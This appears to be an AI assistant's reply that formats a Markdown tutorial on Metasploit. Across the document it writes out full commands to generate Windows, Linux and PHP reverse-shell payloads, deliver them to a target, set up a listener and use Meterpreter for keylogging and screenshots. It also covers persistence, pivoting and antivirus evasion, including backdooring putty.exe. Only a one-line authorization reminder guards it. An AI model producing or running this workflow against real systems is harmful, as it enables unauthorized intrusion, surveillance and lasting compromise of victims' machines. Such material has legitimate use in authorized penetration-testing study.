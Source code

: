 Here's the formatted `.md` file for your Metasploit payload and listener tutorial:

```markdown
# Metasploit Payload and Listener Tutorial (Kali Linux)

## Step 1: Generate the Payload with `msfvenom`
`msfvenom` is part of Metasploit and is pre-installed in Kali Linux. It generates payloads for various platforms.

### 1. Windows Reverse Shell (Meterpreter)
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f exe > /tmp/payload.exe
```
- **File Formats**:
  - Windows: `.exe`
  - Linux: `.elf`
  - macOS: `.macho`
  - Android: `.apk`
- **Flags**:
  - `-p`: Payload type (`windows/meterpreter/reverse_tcp`).
  - `LHOST`: Your Kali Linux IP (e.g., `192.168.1.100`).
  - `LPORT`: Port to listen on (e.g., `4444`).
  - `-f exe`: Output format (Windows executable).
  - `> /tmp/payload.exe`: Saves the payload to `/tmp/payload.exe`.

### 2. Linux Reverse Shell
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f elf > /tmp/payload.elf
```
- `-f elf`: Output format (Linux executable).

### 3. Web Payload (PHP)
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f raw > /tmp/payload.php
```

---

## Step 2: Transfer the Payload to the Target
### Methods:
1. **HTTP Server (Kali)**:
   ```bash
   sudo python3 -m http.server 80 --directory /tmp
   ```
   Target downloads via:
   ```bash
   wget http://<Your_Kali_IP>/payload.exe -O payload.exe
   ```

2. **SCP (Linux-to-Linux)**:
   ```bash
   scp /tmp/payload.elf user@target:/tmp/
   ```

---

## Step 3: Set Up the Listener in `msfconsole`
1. **Launch Metasploit**:
   ```bash
   msfconsole
   ```

2. **Configure the Handler**:
   ```bash
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp  # Match payload type
   set LHOST <Your_Kali_IP>
   set LPORT 4444
   set ExitOnSession false  # Keep listening after session ends
   exploit -j               # Run as a background job
   ```
   - For Linux payloads: `set PAYLOAD linux/x86/meterpreter/reverse_tcp`.

---

## Step 4: Execute the Payload on the Target
- **Windows**:
  ```cmd
  payload.exe
  ```
- **Linux**:
  ```bash
  chmod +x payload.elf
  ./payload.elf
  ```
- **Web (PHP)**: Upload to a web server and browse to the file.

---

## Step 5: Interact with the Meterpreter Session
```bash
sessions -i 1  # Replace "1" with session ID
```

### Meterpreter Commands
| Command               | Description                          |
|-----------------------|--------------------------------------|
| `sysinfo`             | Get system information.              |
| `getuid`              | Check current user privileges.       |
| `shell`               | Drop into a system shell.            |
| `upload /local/file`  | Upload a file to the target.         |
| `download /remote/file` | Download a file from the target.   |
| `screenshot`          | Take a screenshot of the target.     |
| `keyscan_start`       | Start keylogging.                    |

---

## Step 6: Post-Exploitation (Optional)
### 1. Privilege Escalation
- **Windows**: `getsystem` or `post/multi/recon/local_exploit_suggester`.
- **Linux**: `post/multi/recon/local_exploit_suggester`.

### 2. Persistence
```bash
run persistence -U -i 30 -p 4444 -r <Your_Kali_IP>
```
- `-U`: Run at startup.
- `-i 30`: Reconnect every 30 seconds.

### 3. Pivoting
```bash
run autoroute -s 192.168.1.0/24  # Add subnet route
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
exploit
```

---

## Evasion Tips (Avoid Detection)
1. **Encoders**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > encoded_payload.exe
   ```
2. **Custom Templates**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -x /usr/share/windows-binaries/putty.exe -f exe > putty_backdoor.exe
   ```

---

## Cleanup
1. Remove the payload from the target.
2. Kill the handler:
   ```bash
   jobs -K
   ```

---

## Summary Workflow
1. Generate payload with `msfvenom`.
2. Transfer payload to the target.
3. Start listener in `msfconsole`.
4. Execute payload on the target.
5. Interact with the Meterpreter session.
6. Perform post-exploitation (optional).
7. Clean up.

> **Note**: Ensure you have proper authorization before testing.
```

### Key Features:
- **Markdown Formatting**: Headers, code blocks, tables, and lists for readability.
- **Platform-Specific Details**: File formats for Windows/Linux/macOS/Android.
- **Ethical Reminder**: Authorization disclaimer included.
- **Modular Steps**: Easy to copy-paste commands.

Let me know if you'd like any modifications!